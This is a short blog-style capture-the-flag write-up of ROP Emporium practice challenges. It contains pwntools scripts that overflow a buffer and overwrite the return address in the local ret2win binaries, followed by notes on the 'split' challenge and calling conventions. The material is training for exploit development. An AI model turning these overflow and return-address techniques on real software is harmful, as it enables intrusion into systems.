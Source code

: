 ```yaml
---
layout: post
title: "ROP Emporium Write Up"
---
```


# 0x00 Abstartc

It has been a long time since I stopped doing pwn exercises. I solved some basic challenges of [ROP Emporium](https://ropemporium.com) this time, which is a good place to practice your ability constructing write4, xor or pivot ROP chain. I believe that you should know the usage of [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) before reading this write up.



# 0x01 ret2win

Because there is a backdoor system function in ret2win function, overwriting return address is the easy solution on x86 and x64 architecture. 

## ret2win32

```python
from pwn import *

p = process("./ret2win32")
p.recvuntil("> ")
ret2win_address = 0x08048659
payload = "A"*(0x28+4) + p32(ret2win_address)
p.sendline(payload)
p.interactive()
```

## ret2win64

```python
from pwn import *

p = process("./ret2win")
p.recvuntil("> ")
ret2win_address = 0x0000000000400811
payload = "A"*(0x20+8) + p64(ret2win_address)
p.sendline(payload)
p.interactive()
```

# 0x02 split

As mentioned in the introduction, the ret2win function was splitted into system call in usefulFunction and unobvious `cat flag` string in .data segment. Shift+F12 in IDA works it out easily. The difference between 32bit and 64bit binary is the function calling convention, one is the stack, the other is rdi, rsi, rdx, rcx, r8, r9 on Linux, which makes gadget finding different.

